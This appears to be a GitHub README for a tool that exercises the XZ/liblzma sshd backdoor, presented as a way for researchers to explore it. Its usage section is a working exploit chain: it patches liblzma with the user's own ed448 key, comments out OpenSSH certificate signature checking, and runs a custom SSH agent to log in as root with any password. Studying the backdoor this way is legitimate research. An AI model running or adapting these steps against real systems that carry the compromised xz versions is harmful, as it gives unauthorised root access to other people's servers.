

# Jia Tan's SSH Agent

Simple SSH Agent that implements some of the XZ sshd backdoor functionality.

For those who want to more easily explore the backdoor using a typical SSH client.



## Usage

- Generate your own ed448 private key: `openssl genpkey -algorithm ED448 -outform PEM -out privkey.pem`
- Patch your liblzma.so with the ed448 pubkey: `python3 scripts/patch_liblzma.py privkey.pem liblzma.so liblzma_patched.so`
- Patch your SSH client to skip verification of the certificate:
  - Look for this section in openssh's `sshkey.c` and commment it out:
  ```c
  if ((ret = sshkey_verify(key->cert->signature_key, sig, slen,
             sshbuf_ptr(key->cert->certblob), signed_len, NULL, 0, NULL)) != 0)
  {
  	goto out;
  }
  ```
- `python3 -m virtualenv venv && . venv/bin/activate && pip install -r requirements.txt`
- `python3 agent.py /tmp/agent ./privkey.pem`
- `SSH_AUTH_SOCK=/tmp/agent ./ssh root@localhost`
- log in with any password :)

-- blasty `<peter@haxx.in>`
